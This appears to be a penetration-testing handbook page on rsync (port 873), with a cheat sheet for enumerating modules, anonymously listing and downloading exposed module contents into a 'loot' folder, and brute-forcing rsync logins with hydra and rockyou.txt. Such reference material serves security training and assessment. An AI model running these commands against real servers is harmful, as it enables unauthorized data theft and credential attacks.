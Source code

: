 ```yaml
---
title: Rsync (873)
type: handbook
weight: 13
---
```

---

### Cheat sheet 

### Rsync Enumeration & Exploitation

| Command                                                                       | Description                                 |
|-------------------------------------------------------------------------------|---------------------------------------------|
| `nmap -p873 --script rsync-list-modules <target>`                             | Enumerate available rsync modules           |
| `rsync <target>::`                                                            | List public rsync modules                   |
| `rsync <target>::<module>`                                                    | Attempt anonymous listing of a module       |
| `rsync -av <target>::<module> ./loot`                                         | Download full contents of an exposed module |
| `rsync -av rsync://<target>/<module> ./loot`                                  | Alternate syntax to pull module data        |
| `rsync -av -e 'ssh -p 2222' user@host:/path ./loot`                           | Rsync over SSH on non-default port          |
| `hydra -l user -P rockyou.txt rsync://<target>`                               | Brute-force rsync login (only if required)  |


### NSE Scripts

`find / -type f -name "*rsync" | grep nmap/scripts`

`/usr/share/nmap/scripts/rsync-list-modules.nse`


**Rsync** is a fast file copying and synchronization tool commonly used to sync data between servers or to back up files. When run in daemon mode (rsync --daemon), it listens on TCP port 873 and exposes file shares called modules.

It supports:
• Anonymous read access (if allowed)<br>
• Optional authentication (username/password)<br>
• File sync over SSH or natively via port 873<br>


